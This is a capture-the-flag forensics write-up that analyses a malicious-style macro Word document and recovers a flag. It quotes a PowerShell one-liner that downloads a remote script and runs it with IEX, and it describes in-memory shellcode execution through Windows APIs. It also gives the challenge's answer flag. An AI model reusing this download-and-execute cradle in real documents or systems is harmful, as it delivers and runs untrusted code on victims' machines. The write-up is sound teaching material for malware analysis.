

# Forensics 300 - X-Wing Specs?

## Challenge Text: 
This file was sent to Jun Sato - claiming to contian specifics on our next-gen X-Wings. However, it seems to be trickery. 

Can you help find out what this file is actually doing?

**Please note this file may trip your anti-virus, but it contains no malicious code. Everything in the file is harmless**

## Hints:

1. Check out macros in the word doc. What are they doing? 

2. Are there any strings in that binary data?

## How to Solve: 

This challenge revolves around understanding what this malicious word document is doing. 

The first step in doing this is to look at the contents of the Word Doc (It is important to remember that Office documents are basically zip files). 

Let's `vim` into the word doc: 

```
vim bad.docm
```


The interesting bit here is the `word/vbaProject.bin` 

To extract that: 

```
unzip -p bad.docm word/vbaProject.bin > vbaProject.bin
```

Now lets see what strings are in this bin file: 

```
strings vbaProject.bin
```

This returns a lot, but one really interesting bit here is: 
```
powershell (New-Object System.Net.WebClient).DownloadString('https://challenges.silicon-ctf.party/for300/mal.ps1') | IEX'
```

This shows that the macro is reaching out to this site, downloading, then executing the powershell file. 

Looking at the file its downloading: 



At the top are a few C# imports of Windows API calls. Then the file had a binary array declared. Looking at the rest of the file (not pictured in screenshot), the powershell executes that byte array in memory using those Windows APIs. 

This leads us to the next question, what does this byte array do? 

If you copy the byte array out to a file and convert it back to binary data (this can be done with xxd) then run strings on the binary, you will find the flag: 

`silicon{W0rd_d0cs_ca@n_b3_a_lucerative_v3ctor}`